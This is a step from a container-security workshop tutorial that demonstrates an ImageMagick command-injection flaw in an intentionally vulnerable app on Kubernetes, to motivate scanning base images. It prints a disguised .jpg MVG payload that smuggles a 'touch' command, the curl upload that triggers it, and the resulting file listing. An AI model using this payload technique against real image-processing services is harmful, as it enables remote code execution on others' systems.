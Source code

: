 +++
title = "Step 4: Exploit a Container Vulnerability"
chapter = false
weight = 21
+++

## Exploit a Container Vulnerability

Putting an application into a container does not automatically make it secure. To demonstrate the risks of a vulnerable component introduced by our container base image, we will exploit a vulnerability in the ImageMagick package present in one of the pods of our running application on EKS.

## Check the application container's home directory

### Locate the pod ID
First we need the pod ID for the application:
```bash
kubectl get pod
```

```kubernetes
NAME                          READY   STATUS    RESTARTS   AGE
goof-77846d94dd-m9zgc         1/1     Running   0          83m
goof-image-555df7c7fb-446vz   1/1     Running   0          18s
goof-mongo-66f98d594c-l646p   1/1     Running   0          113m
```
Look for the pod name starting with `goof-image` and use it in the command below.

### List the current files in the container's home directory

Next we will get a file directory listing for the container running in that pod by executing the following command:
```bash
kubectl exec -it [goof-image pod id] -- ls 
```

You should see the file listing of the goof-image container's home directory as follows:
```bash
CODEOWNERS  README.md  node_modules	  package.json	server.js
Dockerfile  exploits   package-lock.json  public	uploads
```

## Exploit a remote code execution vulnerability

In your Cloud9 terminal run the following:
```bash
cat image-app/exploits/rce1.jpg
```

Even though that file has a `.jpg` extension in it's name, it is actually a script:

```text
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|touch "rce1)'
pop graphic-context
```
Take special notice to the `"|touch "rce1` part of the next-to-last line.

Now, run the following:
```bash
curl -F 'twitter_picture=@rce1.jpg' http://localhost:3112/upload http://$GOOF_IMAGE_LB//
```

All we see coming back is this:
```
Found. Redirecting to /public/result.html
```

But let's check the container's filesystem again:
```bash
kubectl exec -it [goof-image pod id] -- ls 
```

```bash
CODEOWNERS  README.md  node_modules	  package.json	rce1	   uploads
Dockerfile  exploits   package-lock.json  public	server.js
```
Now we see an additional `rce1` file has been created!

## The impact of this vulnerability
The creation of an empty file may not seem that severe but realize that any command availabile in that container could be used in place of the `touch` command used here.  This includes things like `wget`, `curl` and `apt-get`.  It would not be hard to craft an exploit that pulls a shell script from an internet site and runs whatever is in it, giving the hacker a beachhead in your cluster to operate from.

Continue to the next step to learn how to identify these, and other, vulnerabilities in your container images that are introduced by your container base image.

